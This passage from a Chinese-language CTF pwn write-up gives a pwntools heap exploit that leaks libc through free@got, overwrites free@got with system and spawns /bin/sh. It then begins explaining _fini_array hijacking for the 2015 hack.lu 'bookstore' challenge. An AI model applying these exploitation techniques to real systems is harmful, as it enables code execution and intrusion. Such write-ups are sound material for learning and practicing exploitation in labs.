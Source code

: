    ```python
   delete(1)
   # new heap 1's struct will point to old heap 1's content, size 0x20
   # new heap 1's content will point to old heap 1's struct, size 0x30
   # that is to say we can overwrite new heap 1's struct
   # here we overwrite its heap content pointer to free@got
   create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
   # leak freeaddr
   show(1)
   r.recvuntil("Content : ")
   data = r.recvuntil("Done !")
   
   free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
   libc_base = free_addr - libc.symbols['free']
   log.success('libc base addr: ' + hex(libc_base))
   system_addr = libc_base + libc.symbols['system']
   #gdb.attach(r)
   # overwrite free@got with system addr
   edit(1, p64(system_addr))
   # trigger system("/bin/sh")
   delete(0)
   r.interactive()
   ```





## 2015 hacklu bookstore

### 知识点：

1. 挟持**_fini_array**中的指针，控制程序的执行流：

   ![image-20240717222314691](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407172223755.png)

   ![image-20240717222259535](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407172222643.png)

2. 执行的流程是 ：**fini_array[1] ==> fini_array[0]** ,可以覆盖着两个指针来挟持程序的控制流。

3. 程序的正常执行流程：**start ==> __libc_start_main ==> main ==> other_fun** :

   **start**函数：

   ![image-20240718101912648](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181019243.png)

   **__libc_start_main** 函数：

   ![image-20240718102137242](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181021828.png)

   **main**函数：

   ![image-20240718102521380](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181025815.png)

